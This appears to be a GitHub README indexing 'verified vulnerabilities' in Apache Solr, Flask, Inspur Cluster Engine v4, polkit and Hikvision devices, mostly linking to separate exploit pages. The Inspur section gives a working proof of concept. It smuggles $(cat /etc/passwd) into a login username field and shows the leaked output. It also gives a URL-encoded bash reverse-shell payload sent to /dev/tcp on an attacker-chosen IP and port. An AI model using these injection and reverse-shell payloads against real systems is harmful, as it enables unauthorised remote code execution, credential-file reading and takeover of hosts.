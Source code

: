 # *Collection of verified vulnerabilities*

## 一、[*Apache Solr Rce cve-2019-0193*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheSolr)

<details>
<summary><em>点击以展开 *Apache Solr Rce cve-2019-0193介绍 </em></summary>

- 有回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%9C%89%E5%9B%9E%E6%98%BEpayload)
- 无回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%97%A0%E5%9B%9E%E6%98%BEpayload)

### # 1x01 恶意xml引用
引用地址`(https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CoVV/ApacheSolr/solr.xml)`

### # 1x02 两者payload对比

- [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E5%8C%BA%E5%88%AB)

### 参考

[漏洞分析 - Apache Solr远程代码执行漏洞(CVE-2019-0193)](https://xz.aliyun.com/t/5965)

</details>

## 二、[*Easy Flask - Python 反序列化*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Flask)

<details>
<summary><em>点击以展开 *Easy Flask - Python 反序列化介绍 </em></summary>

### POC复现

- [*点击以进一步了解POC复现*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Flask#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%A4%8D%E7%8E%B0)

</details>

## 三、[*Inspur Cluster Engine v4 RCE*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Inspur%20Cluster%20Engine%20v4)

<details>
<summary><em>点击以展开 *Inspur Cluster Engine v4 RCE介绍 </em></summary>

- Java web 认证缺陷
- 传入参数可控导致远程代码执行

### POC复现

```
# POC测试(出现 root:x:0:0 则存在漏洞)

op=login&username=peiqi`$(cat /etc/passwd)`
{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user peiqi does not exist\nerror:1\n"}

# 反弹shell
op=login&username=peiqi`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```

</details>

## 四、[*polkit-CVE-2021-3560*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/polkit-CVE-2021-3560)

<details>
<summary><em>点击以展开 *polkit-CVE-2021-3560介绍 </em></summary>
> 该漏洞存在于系统服务Polkit中，因为Polkit被Systemd所调用，因此默认安装了Systemd的发行版都会使用Polkit。
> 该漏洞成因是执行dbus-send命令后在认证完成前强制终止引发错误，而Polkit未正确处理错误导致允许无特权的用户添加一个sudo用户。

| 影响 OS | 参考链接 |
---- | ----
RHEL 8						|[Link](https://access.redhat.com/security/cve/CVE-2021-3560)
Fedora 21 (or later)		|[Link](https://bugzilla.redhat.com/show_bug.cgi?id=1967424)
Debian testing (“bullseye”)	|[Link](https://security-tracker.debian.org/tracker/CVE-2021-3560)
Ubuntu 20.04				|[Link](https://ubuntu.com/security/CVE-2021-3560)

</details>

## 五、[*Hikvision Unauth*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth)

<details>
<summary><em>点击以展开 *Hikvision Unauth介绍 </em></summary>
- 海康威视固件未授权下载及解密分析：
	- [相关博客](https://about.sentrylab.cn/help/Hikvision-BinConfigurationFiles-decrypter/)
</details>

## 六、Struts2 待完成
